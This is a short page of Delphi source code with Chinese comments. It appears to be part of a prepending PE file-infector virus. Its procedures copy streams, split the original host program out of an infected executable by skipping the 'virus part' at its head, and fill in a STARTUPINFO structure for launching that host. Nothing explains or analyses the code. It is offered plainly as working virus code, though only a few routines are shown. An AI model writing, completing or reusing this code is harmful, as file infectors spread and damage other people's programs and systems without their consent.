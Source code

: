 在流之间复制

```
{ 在流之间复制 }
procedure CopyStream(Src: TStream; sStartPos: Integer; Dst: TStream;
  dStartPos: Integer; Count: Integer);
var
  sCurPos, dCurPos: Integer;
begin
  sCurPos := Src.Position;
  dCurPos := Dst.Position;
  Src.Seek(sStartPos, 0);
  Dst.Seek(dStartPos, 0);
  Dst.CopyFrom(Src, Count);
  Src.Seek(sCurPos, 0);
  Dst.Seek(dCurPos, 0);
end;
```

将宿主文件从已感染的PE文件中分离出来，以备使用

```
{ 将宿主文件从已感染的PE文件中分离出来，以备使用 }
procedure ExtractFile(FileName: string);
var
  sStream, dStream: TFileStream;
begin
  try
    sStream := TFileStream.Create(ParamStr(0), fmOpenRead or fmShareDenyNone);
    try
      dStream := TFileStream.Create(FileName, fmCreate);
      try
        sStream.Seek(HeaderSize, 0); //跳过头部的病毒部分
        dStream.CopyFrom(sStream, sStream.Size - HeaderSize);
      finally
        dStream.Free;
      end;
    finally
      sStream.Free;
    end;
  except
  end;
end;
```

填充 `Startup Info` 结构

```
{ 填充STARTUPINFO结构 }
procedure FillStartupInfo(var Si: STARTUPINFO; State: Word);
begin
  Si.cb := SizeOf(Si);
  Si.lpReserved := nil;
  Si.lpDesktop := nil;
  Si.lpTitle := nil;
  Si.dwFlags := STARTF_USESHOWWINDOW;
  Si.wShowWindow := State;
  Si.cbReserved2 := 0;
  Si.lpReserved2 := nil;
end;
```
